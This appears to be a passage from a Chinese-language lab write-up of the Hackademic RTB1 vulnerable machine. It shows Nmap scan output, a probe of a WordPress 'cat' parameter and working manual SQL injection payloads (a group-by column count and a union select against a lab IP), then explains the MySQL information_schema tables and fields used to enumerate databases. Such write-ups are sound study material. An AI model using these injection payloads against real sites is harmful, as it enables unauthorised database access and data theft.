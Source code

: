 ```
|     References:                                                                             
|       https://www.tenable.com/plugins/nessus/55976                                                                                                                                         
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192                                                                                                                         
|       https://seclists.org/fulldisclosure/2011/Aug/175                                                                                                                                     
|_      https://www.securityfocus.com/bid/49303                                               
| http-enum:                                                                                  
|_  /icons/: Potentially interesting folder w/ directory listing                                                                                                                             
MAC Address: 00:0C:29:01:8A:4D (VMware)                                                       

Nmap done: 1 IP address (1 host up) scanned in 146.21 seconds  
```
借本扫描结束，只扫描到两个端口，ssh是close状态，漏洞脚本扫描都是dos攻击，没什么用，开始手工枚举信息。

## web信息枚举
访问80端口，是一个挑战，获取 key.txt，给了明确的目标，应该不用扫描目录，算了还是挂个后台扫一下，果然啥也没扫到。

查看源码，源码最后一行有几个参数
```<p>&#8212;NickJames | <a href="/Hackademic_RTB1/?p=9#comments">no comments</a> <br /><small>(posted in <a href="/Hackademic_RTB1/?cat=1" title="View all posts in Uncategorized" rel="category tag">Uncategorized</a>```
尝试更改 **cat** 和 **p** 参数的值，直到更换 **cat** 后面的值，页面发生改变，出现了 search 框，看来是**sql注入**
初学者，就手工爆了。
<img width="1919" height="1035" alt="Image" src="https://github.com/user-attachments/assets/98fea2b1-516e-4400-b6ed-49ccfe6d2d90" />

输入单引号报错显示，有对符号的转义
```WordPress database error: [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\\\' LIMIT 1' at line 1]
SELECT * FROM wp_categories WHERE cat_ID = \\\' LIMIT 1
```

加的 **/** 转义，试试是不是宽字节注入，不行。后面又试别的，发现压根就没有符号闭合。

<img width="1919" height="1037" alt="Image" src="https://github.com/user-attachments/assets/df2121fd-e541-4553-b1c9-d6965289e7dc" />

还是一步一步走，先判断表的列数，使用 **group by** 发现 6 报错，5 没有报错。
`http://192.168.218.190/Hackademic_RTB1/?cat=1%20group%20by%205`
使用联合注入，发现第二位回显。
`http://192.168.218.190/Hackademic_RTB1/?cat=0%20union%20select%201,database(),3,4,5#`

<img width="1919" height="1039" alt="Image" src="https://github.com/user-attachments/assets/96b726eb-b83a-4062-94e8-d4da58eb3869" />

一库 指的是 information_schema 数据库。这个数据库是 MySQL 的核心库，包含了所有数据库的元数据。它存储了关于数据库、表和字段的详细信息。

三表 是指 information_schema 数据库中的三个关键表：
1. schemata 表：存放所有数据库的信息。
2. tables 表：存放所有表的信息。
3. columns 表：存放所有字段的信息。

六字段 是指上述三表中的六个关键字段：
1. schemata 表的 schema_name 字段：存放具体的数据库名。
2. tables 表的 table_name 字段：存放具体的表名。
3. tables 表的 table_schema 字段：存放表所在的数据库名。
4. columns 表的 column_name 字段：存放具体的字段名。
5. columns 表的 table_name 字段：存放字段所在的表名。
6. columns 表的 table_schema 字段：存放字段所在的数据库名。
